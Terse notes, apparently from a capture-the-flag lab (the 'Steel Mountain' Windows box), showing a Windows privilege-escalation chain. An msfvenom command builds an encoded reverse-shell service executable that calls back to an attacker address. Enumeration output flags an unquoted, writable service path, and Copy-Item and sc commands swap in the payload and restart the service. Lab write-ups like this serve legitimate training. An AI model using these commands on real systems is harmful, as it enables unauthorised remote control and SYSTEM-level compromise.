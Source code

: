 # steel mountan

windows box, mr robot themed

msfvenom -p windows/shell_reverse_tcp LHOST=10.13.2.66 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe


erviceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

"C:\Program Files (x86)\IObit\AdvancedSystemCare\ASCService.exe"


Copy-Item "C:\Users\bill\Desktop\Advanced.exe" -Destination "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

sc stop AdvancedSystemCareService9

sc start AdvancedSystemCareService9


C:/Program\ Files\ (x86)